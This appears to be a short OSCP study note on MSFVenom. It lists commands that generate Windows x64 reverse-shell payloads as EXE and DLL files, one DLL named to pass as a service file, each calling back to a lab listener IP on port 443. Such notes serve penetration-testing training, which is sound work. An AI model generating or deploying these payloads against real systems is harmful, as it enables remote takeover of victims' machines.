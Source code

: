 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/11. Metasploit Framework/3. MSFVenom/"}
---
```


---------
Search for payload:
```
msfvenom -l payloads --platform windows --arch x64
```

Non-staged 64-bit Windows Reverse TCP Payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe
```

Non-staged 64-bit Windows Reverse HTTPS Payload:
```
sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.45.199 LPORT=443 -f exe -o met.exe
```

64-bit DLL Payload:
```
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.226 LPORT=443 -a x64 --platform Windows -f dll -o EnterpriseServiceOptional.dll
```

